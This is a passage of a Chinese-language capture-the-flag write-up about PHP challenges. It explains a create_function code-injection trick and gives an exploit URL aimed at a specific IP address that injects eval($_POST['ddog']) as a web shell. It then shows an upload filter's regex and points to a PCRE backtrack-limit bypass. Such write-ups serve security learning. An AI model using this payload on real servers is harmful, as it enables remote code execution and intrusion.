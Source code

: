 ```
create_function('$a,$b','return 111;}phpinfo();//')

==>

function a($a, $b){
    return 111;}phpinfo();//
}
```
这样一来，我们想要执行的代码就会执行

exp
```
http://51.158.75.42:8087/?action=%5Ccreate_function&arg=return%202333;%7Deval($_POST%5B%27ddog%27%5D);%2f%2f
```
![image.png-251kB][2]

# easy pcrewaf

```
 <?php
function is_php($data){
    return preg_match('/<\?.*[(`;?>].*/is', $data);
}

if(empty($_FILES)) {
    die(show_source(__FILE__));
}

$user_dir = './data/';
$data = file_get_contents($_FILES['file']['tmp_name']);
if (is_php($data)) {
    echo "bad request";
} else {
    @mkdir($user_dir, 0755);
    $path = $user_dir . '/' . random_int(0, 10) . '.php';
    move_uploaded_file($_FILES['file']['tmp_name'], $path);

    header("Location: $path", true, 303);
} 
```

这题自己研究的时候没想到怎么做，不过思路很清楚，文件名不可控，唯一能控制的就是文件内容。

所以问题的症结就在于如何绕过这个正则表达式。

```
/<\?.*[(`;?>].*/is
```

简单来说就是`<`后面不能有问号，`<?`后面不能有`(;?>反引号`，但很显然，这是不可能的，最少执行函数也需要括号才行。从常规的思路肯定不行

[https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cbo3ltlsxrnjxh8jqiulbjha/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rx2eagas7du6o0pf4d91g5e8/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hc8h3y7vvo3nce9i15jj1eqm/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/gwwvk7egkhj27k2zon6f2bc2/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rml8zqyl2jy183cjel8df6av/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/aa3bs1plfwhlg5nm69i3wmem/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/v2u053p38hbpsdy3c08koj20/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/c9tepy22r9k6563g29kw8pr8/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9ri7yi46c9cqch7tzzz1sr2u/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/c15jhqn4pixvau8ixc7n1is5/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vq8bm8hefnnzscxpz8f7ka7d/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/sviykeendizwzekf4tbttbkz/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/klcd2lie0pz82a9by3fqh7ov/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/zkj2j6o7n6j2kz6kptgx57xr/image.png
  [15]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vz39az7wgimmauv33eukobbn/image.png
  [16]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vka9pxexoj8vnmxf1ilsdwwy/image.png
  [17]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jueyk32hl7ip4n364y6gwhpf/image.png
  [18]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hewv5e9mzsu34ucce367cjug/image.png
  [19]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3mk7jhioca1p0q8f464papay/image.png
  [20]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/md4rru83wquxs62kricum5a1/image.png
  [21]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ae0fr6ms7z7esyvagwbmbx2e/image.png
  [22]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ps6iu6zj7j8wk4dv9mtpdiau/image.png
  [23]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9sth0qe2l1jmrtwbodrcrezz/image.png
  [24]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7pvi42gqs8ykm439pcg0vl9t/image.png
  [25]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pjmb7nlix7afzs7emfwm2e4j/image.png